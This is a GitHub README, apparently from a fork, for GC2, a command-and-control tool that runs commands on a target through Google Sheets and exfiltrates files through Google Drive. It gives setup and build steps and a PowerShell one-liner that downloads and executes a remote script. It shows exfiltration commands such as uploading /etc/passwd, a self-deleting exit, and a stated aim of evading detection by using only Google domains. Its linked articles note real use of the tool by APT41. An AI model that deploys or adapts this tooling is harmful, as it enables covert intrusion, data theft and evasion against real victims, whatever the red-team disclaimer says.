 # GC2

<p align="center">
  <img alt="Logo" src="img/GC2.png" height="30%" width="30%">
</p>

GC2 (Google Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using Google Sheet and exfiltrates data using Google Drive.

# My Contribution

A Powershell script that downloads go, adds it to the user's path, downloads the zip from the repository "looCiprian/GC2-sheet", builds the executable, and runs gc2-sheet. Note: requires a web server to host the #MY_KEY_JSON file to Invoke-Webrequest down, #MY_SHEET_ID, and #MY_DRIVE_ID to be incorporated into the PS1. Additionally, PowershellScript-GC-2.ps1 can be hosted from the same webserver and requested with Invoke-WebRequest.

# Why

This project has been developed to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Google's domains (*.google.com) to make detection more difficult.

# Set up

1. **Create a new Google "service account"**
 
    Create a new Google "service account" using [https://console.cloud.google.com/](https://console.cloud.google.com/), create a .json key file for the service account 

2. **Enable Google Sheet API and Google Drive API**

    Enable Google Drive API [https://developers.google.com/drive/api/v3/enable-drive-api](https://developers.google.com/drive/api/v3/enable-drive-api) and Google Sheet API [https://developers.google.com/sheets/api/quickstart/go](https://developers.google.com/sheets/api/quickstart/go) 

3. **Set up Google Sheet and Google Drive**

    Create a new Google Sheet and add the service account to the editor group of the spreadsheet (to add the service account use its email)
    
    <p align="center">
        <img alt="Sheet Permission" src="img/sheet_permissions.png" height="60%" width="60%">
    </p>
    
    Create a new Google Drive folder and add the service account to the editor group of the folder (to add the service account use its email)
    
    <p align="center">
        <img alt="Sheet Permission" src="img/drive_permissions.png" height="60%" width="60%">
    </p>    

4. **Download the C2**

    The C2 can be cloned directly from GitHub:

    ```
    git clone https://github.com/looCiprian/GC2-sheet
    cd GC2-sheet
    ```

5. **Configure the C2**

    The preferred way to configure the C2 is by modifying the `options.yml` file inside the `cmd` directory.

    The `options.yml` file is structured as follows:

    ```
    key: # escaped JSON key
    sheet: # sheetID
    drive: # driveID
    proxy: # proxy string
    verbose: # verbose true or false
    ```

6. **Build executable**
 
    ```
    go build gc2-sheet.go
    ```

7. **Run**

   If you have a web server hosting your MY_KEY_JSON file and running on Windows, use:
   ```Powershell
   irm http://$myUrl/PowershellScript-GC-2.ps1 -usebasicparsing | iex
   ```

   Or Linux the below commands. If the configuration file has been modified just run:

    ```
    ./gc2-sheet
    ```

    Otherwise, it is possible to use the command options after compiling the C2 (this option will be deprecated soon):

    ```
    gc2-sheet --key <GCP service account credential file .JSON > --sheet <Google sheet ID> --drive <Google drive ID>
    ```

## Troubleshooting

Most of the errors can be detected by setting the `verbose` flag to `true`. By default, the C2 does not generate any output or error information.

# Features

- Command execution using Google Sheet as a console
- Download files on the target using Google Drive
- Data exfiltration using Google Drive
- Exit

## Command execution

The program will perform a request to the spreedsheet every 5 sec to check if there are some new commands.
Commands must be inserted in column `A`, and the output will be printed in the column `B`. 

## Data exfiltration file

Special commands are reserved to perform the upload and download to the target machine

 ```
From Target to Google Drive
upload;<remote path>
Example:
upload;/etc/passwd
 ```

## Download file

Special commands are reserved to perform the upload and download to the target machine

 ```
 From Google Drive to Target
download;<google drive file id>;<remote path>
Example:
download;<file ID>;/home/user/downloaded.txt
 ```

## Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

PS: From *os* documentation: 
*If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case, the symlink is deleted.

# Workflow

<p align="center">
  <img alt="Work Flow" src="img/GC2-workflow.png" height="60%" width="60%">
</p>

# Demo

[Demo](https://youtu.be/n2dFlSaBBKo)

[Demo](https://youtu.be/pLfuZnLcR1o) by [Grant Collins](https://www.youtube.com/@collinsinfosec)

# Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

# Support the project

**Pull request** or [![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donate_SM.gif)](https://www.paypal.com/donate?hosted_button_id=8EWYXPED4ZU5E)

# Articles related to this tool
[Google](https://services.google.com/fh/files/blogs/gcat_threathorizons_full_apr2023.pdf)

[The Hacker News](https://thehackernews.com/2023/04/google-uncovers-apt41s-use-of-open.html)

[Reddit](https://www.reddit.com/r/cybersecurity/comments/12u3wvl/top_cybersecurity_stories_for_the_week_of_041723/)

[LinkedIn](https://www.linkedin.com/pulse/hacking-tutorial-google-sheets-command-control-c2-server-maxwell-zhou/)

[Bleeping Computer](https://www.bleepingcomputer.com/news/security/hackers-abuse-google-command-and-control-red-team-tool-in-attacks/)

[Security Affairs](https://securityaffairs.com/144915/apt/china-apt41-tool-gc2.html)

[Icrewplay](https://tech.icrewplay.com/gc2-strumento-google-gruppo-cinese-apt41/?utm_content=cmp-true)

[Information Security Buzz](https://informationsecuritybuzz.com/google-uncovers-apt41-tools-targeting-media-and-job-sites/)

[Hackdig](http://en.hackdig.com/04/477620.htm)

[Hakin9](https://hakin9.org/gc2-command-and-control-application/)

[RedPacketSecurity](https://www.redpacketsecurity.com/gc2-a-command-and-control-application-that-allows-an-attacker-to-execute-commands-on-the-target-machine-using-google-sheet-and-exfiltrate-data-using-google-drive/)

[Cyware](https://cyware.com/news/apt41-uses-open-source-red-teaming-tool-gc2-9eaecb18)

[Kitploit](https://www.kitploit.com/2021/10/gc2-command-and-control-application.html)
